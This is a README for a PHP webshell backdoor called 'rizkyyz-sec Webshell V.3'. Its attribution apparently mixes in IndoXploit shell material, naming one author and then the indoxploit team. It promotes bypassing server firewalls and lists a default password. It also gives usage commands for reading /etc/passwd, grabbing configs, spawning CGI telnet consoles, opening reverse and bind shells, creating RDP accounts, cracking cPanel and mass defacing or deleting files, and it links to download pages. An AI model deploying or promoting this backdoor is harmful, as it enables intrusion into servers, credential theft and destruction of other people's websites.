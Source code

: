 # rizkyyz-sec Webshell V.3

rizkyyz webshell V.3 is an PHP based webshell or backdoor with unique and usefull features. This webshell is originally coded by [**rizkyz**](https://github.com/agussetyar) from **Twenty Two Cyber Team**. rizkyyz-sec Shell has been mentioned repeatedly by the coder that it will make you easily bypass server security. With this shell you can comfortably bypass the server firewall from most secure servers. It is one of the hacker's most preferred backdoor shell.

**Usage of indoxploit shell for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program**

---

## Screenshot
- login
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/indoxploit-login.PNG "Login Shell")
Default Password : **IndoXploit**

- interface
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/idx-interface.PNG "Shell Interface")
Webshell Interface

## Features
- Mass Password Change
- Fake Root
- Cpanel Crack
- Mass Deface/Delete File
- Zone-H Mass Submit

## How to Use
 - ***Read File***
~~~
 usage: rf [filename]
 example: rf /etc/passwd
~~~

 - Spawn File/Tools 
 ~~~
 usage: spawn [name]
~~~

[name]
- Adminer (adminer)
- WebConsole (webconsole)
- CGI Telnet 1 (cgitelnet1)
- CGI Telnet 2 (cgitelnet2)
- PHPINFO (phpinfo)

 example:
~~~
 spawn adminer
 spawn webconsole
 spawn cgitelnet1
~~~

- ***Jumping***
~~~
usage: jumping
~~~

- ***Config Grabber***
~~~
usage: idxconfig
~~~

 - ***Symlink***
 ~~~
 usage: symlink
~~~

 - ***Reverse Shell***
 
***[Back Connect]***
~~~
usage: rvr bc [IP] [PORT] [TYPE]
~~~
Example:
~~~
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
~~~

***Bind Port***
~~~
usage: rvr bp [PORT] [TYPE]
~~~
Example:
~~~
rvr bp 1337 perl
~~~

 - ***KRDP - Create RDP Account (for windows server only)***
 ~~~
 usage: krdp
~~~
 - ***Logout From Shell***
 ~~~
 usage: logout
~~~
 - ***Kill Backdoor***
~~~
usage: killme
~~~

 ## Contribute
 Drop an email at **shu@indoxploit.or.id** and tell us what your suggestions about how to improve this webshell.

## Article
- [Download Shell Backdoor IndoXploit V.3](https://exploit.linuxsec.org/download-shell-backdoor-indoxploit-v-3/)
- [Download Shell backdoor Indoxploit V.2](https://exploit.linuxsec.org/shell-indoxploit-v2-dirilis/)
- [Download IndoXploit WebShell First Edition](https://exploit.linuxsec.org/indoxploit-shell-v1/)

## Disclaimer
Any actions and or activities related to the material contained within this tool is solely your responsibility.The misuse of the information in this tool can result in criminal charges brought against the persons in question.

Note: modifications, changes, or changes to this code can be accepted, however, every public release that uses this code must be approved by writing this tool (indoxploit team)
